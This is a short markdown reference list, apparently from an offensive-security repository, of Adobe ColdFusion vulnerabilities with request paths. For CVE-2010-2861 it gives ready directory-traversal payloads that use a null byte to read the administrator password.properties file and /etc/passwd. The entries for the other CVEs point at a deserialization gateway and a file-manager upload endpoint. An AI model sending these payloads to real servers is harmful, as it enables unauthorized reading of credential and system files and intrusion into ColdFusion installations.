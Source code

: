 - CVE-2010-2861: 
`/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`
`/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`
- CVE-2017-3066: `/flex2gateway/amf`
- CVE-2018-15961: `/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm`
- CVE-2019-7091: `/flashservices/gateway/`

### Ref
- https://github.com/justbaibai/Armory/tree/1e78f2b906be1fff5fdaaab6400efe4603deecef/a/Adobe_ColdFusion
